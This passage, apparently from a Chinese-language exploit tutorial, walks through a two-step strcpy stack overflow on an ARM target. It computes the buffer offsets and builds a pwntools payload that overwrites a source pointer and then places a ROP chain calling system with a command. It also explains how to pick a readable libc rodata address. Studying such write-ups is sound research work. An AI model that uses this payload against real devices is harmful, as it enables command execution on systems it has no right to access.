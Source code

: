 - **Payload 部分**  
：  
  
```
payload = b'A' * 0x60 + p32(readable_addr)  # 覆盖到 `src` 并篡改指针
```  
#### (2) 第二次 strcpy(dest, src)  
- **目标**  
：通过被篡改的   
src  
 指针，向   
dest  
 写入ROP链，覆盖返回地址。  
  
- **关键点**  
：   
  
- dest  
 到返回地址的距离 =   
(bp + 4) - (bp - 0xBC) = 0xC0  
（192字节）。  
  
- 但实际只需覆盖   
src  
 到返回地址的   
0x20  
（32字节），因为   
dest  
 是中间跳板。  
  
p32(readable_addr)  
 占 **4字节**  
， 返回地址本身占**4字节(arm架构中，需要4字节填充)**  
， 所以实际填充长度是**32-4-4=24字节**  
#### (3) payload结构  
  
所以payload应该调整为  
```
payload = (
    b'A' * 0x60              # 覆盖到src指针位置(96字节)
    + p32(readable_addr)     # 覆盖src指针(4字节)    
    + b'C' * 24              # 覆盖剩余空间到返回地址(24字节)
    + p32(pop_r3)            # ROP链开始
    + p32(system)
    + p32(mov_r0_ret_r3)
    + cmd)
```  
  
下图为栈帧示意图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgiaaW8flNzHG3USyPfZhR4icMmEMAFpQfaogJSICKibQv5qk0KReia848BA/640?wx_fmt=png&from=appmsg "")  
### readable_addr可读地址  
  
使用ida pro打开libc.so.0文件，理论上只要是rodata的常量的偏移量，都可以拿来用，但是这里只是偏移量，需要跟上实际的地址，这个地址就是lib基址  
  